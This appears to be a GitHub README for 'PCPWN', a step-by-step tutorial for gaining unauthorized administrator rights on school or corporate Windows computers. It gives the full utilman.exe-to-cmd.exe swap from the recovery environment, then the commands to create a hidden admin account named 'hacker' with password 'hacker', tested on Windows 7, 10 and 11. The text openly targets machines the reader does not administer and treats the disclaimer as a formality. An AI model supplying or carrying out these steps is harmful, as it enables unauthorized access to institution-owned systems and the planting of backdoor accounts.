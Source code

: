 
<p align="center">
<img src="https://cdn-icons-png.flaticon.com/512/207/207130.png", width="200", height="200">
</p>

<h1 align="center"> [ PCPWN ]</h1>
<h4 align="center">How can I obtain administrative privileges on a school computer
</h4>

### DESCRIPTION
PCPWN is an informative tutorial that guides you through the process of gaining unauthorized access to administrative privileges on a computer within a school or corporate environment, all without relying on the pre-existing company-created admin account.

### 1. Access Windows RE (Recovery Environment):
  Start by accessing recovery mode on the target system. [7 Quick Ways to Boot Into the Windows Recovery Environment](https://www.makeuseof.com/ways-to-boot-into-the-windows-recovery-environment/)
    
  #### When the computer is turned off:

        Press and hold the Windows Key and press the power button.
        Release both keys.

 #### From the Windows Logon screen:
        Click the Power Button icon.
        Hold the SHIFT Key and click Restart.


<table>
  <tr>
    <td align="center">
      <a href="#"><img src="https://i.imgur.com/NNXrJrk.png" width="300" /></a>
        <br />
      </a>
    </td>
    <td align="center">
      <a href="#"><img src="https://i.imgur.com/zbDdvEI.png" width="300" /></a>
        <br />
      </a>
    </td>
    <td align="center">
     <a href="#"><img src="https://i.imgur.com/R1Tg6vo.png" width="300" /></a>
        <br />
      </a>
    </td>
      <td align="center">
     <a href="#"><img src="https://i.imgur.com/DwzVX1G.png" width="300" /></a>
        <br />
      </a>
    </td>
      <td align="center">
     <a href="#"><img src="https://i.imgur.com/oDvOtPm.png" width="300" /></a>
        <br />
      </a>
    </td>
</table>

Search "recovery start-up" > click recovery start-up.

Click Restart Now button under the Advanced start-up section. The computer should restart and enter recovery mode.

then navigate to "Troubleshoot," click "Advanced option" and finally, select "Command Prompt."

### 2. Utilizing Command Prompt and Changing Utilman to CMD:
In the Command Prompt, type the following command:

    wmic logicaldisk get caption                        - List available drives
    c:                                                  - Change to the C: drive
    cd Windows\System32                                 - Navigate to the System32 folder
    ren utilman.exe utilman.exe.bak                     - Rename utilman.exe to utilman.exe.bak
    copy cmd.exe utilman.exe                            - Copy cmd.exe to utilman.exe
    exit                                                - exit the command prompt
    
### 4. Adding a User Account:
Return to the login screen and click on "Ease of Access Icon."

In the Command Prompt, type the following command:

    net user hacker hacker /add                         - Create a new user named "hacker" with password "hacker"
    net localgroup Administrators hacker /add           - Add the user "hacker" to the Administrators group

### 5. Logging In with the New Account with admin priv:
    Log in with your non-administrator account.
    Open PowerShell as an administrator.
    Type username: DOMAIN\hacker password: hacker

Guess what? You've got the keys to the kingdom now! Your regular account? Well, it's not so regular anymore. It's been upgraded to full-on admin mode. That means you're not just a regular user – you're the boss.

With these admin superpowers, you can do a whole bunch of cool stuff. Need to tweak some settings? No problem. Want to add or manage users? Easy peasy. It's like having a backstage pass to the entire system. So go ahead, explore, and make this digital world yours!

### TESTED ON FOLLOWING
* Windows 11
* Windows 10
* Windows 7


### Reverting Changes
To restore utilman.exe, in the Command Prompt type in:

    C:
    cd windows\system32
    del utilman.exe
    ren utilman.exe.bak utilman.exe

Then reboot the system.

## Support

If you find my work helpful and want to support me, consider making a donation. Your contribution will help me continue working on open-source projects.

**Bitcoin Address: `36ALguYpTgFF3RztL4h2uFb3cRMzQALAcm`**
   
<h1 align="center"> DISCLAIMER </h1>

<h4 align="center">I'm not responsible for anything you do with this tutorial, so please only use it for good and educational purposes. </h4>

